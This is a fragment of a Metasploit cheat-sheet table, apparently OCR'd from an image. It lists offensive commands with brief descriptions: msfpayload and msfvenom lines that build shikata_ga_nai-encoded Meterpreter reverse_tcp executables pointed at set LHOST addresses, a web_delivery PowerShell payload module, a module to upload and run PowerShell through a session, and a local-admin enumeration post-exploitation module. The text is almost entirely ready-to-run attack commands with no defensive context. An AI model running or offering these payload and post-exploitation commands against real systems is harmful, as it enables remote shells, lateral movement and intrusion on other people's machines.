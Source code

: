 | run post/windows/gather/local\_admin\_search\_enum | Test other machines |
| msfpayload windows/meterpreter/reverse\_tcp LHOST=192.168.0.1 LPORT=4445 R -f exe -e x86/shikata\_ga\_nai -c 5 &gt; custom.exe | Standalone meterpreter |
| use exploit/multi/script/web\_delivery | Powershell payload delivery |
| post/windows/manage/powershell/exec\_powershell | Upload and run a PS script through a session |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=172.1.3.19 LPORT=4444 -a x86 -f exe -e x86/shikata\_ga\_nai -b '\x00' -i 3 &gt; meter.exe | Generate standalone payload |



